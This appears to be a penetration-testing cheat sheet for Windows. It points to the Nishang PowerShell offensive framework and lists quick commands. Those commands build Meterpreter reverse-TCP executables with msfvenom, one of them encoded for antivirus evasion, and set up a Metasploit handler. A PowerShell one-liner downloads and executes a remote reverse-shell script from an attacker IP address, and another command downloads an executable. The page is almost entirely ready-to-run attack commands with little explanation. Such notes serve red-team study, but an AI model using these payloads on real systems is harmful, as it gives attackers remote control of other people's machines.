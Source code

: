 # Window Tools/Resources

Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

{% embed url="https://github.com/samratashok/nishang" %}

Powershell Reverse Shells

{% embed url="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" %}

### Quick Commands

```
// Basic Meterpreter Windows Shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 LHOST=10.17.30.151 LPORT=1234 -f exe -o shell.exe
// Encoder Meterpreter Windows Shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.17.30.151 LPORT=1234 -f exe -o shell.exe
//Setting up Handler
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run


// Invoke PowerShell ReverseShell 
powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.30.151/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.30.151 -Port 4444
// Powershell download file
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.17.30.151:8000/shell-name.exe','shell-name.exe')"
```
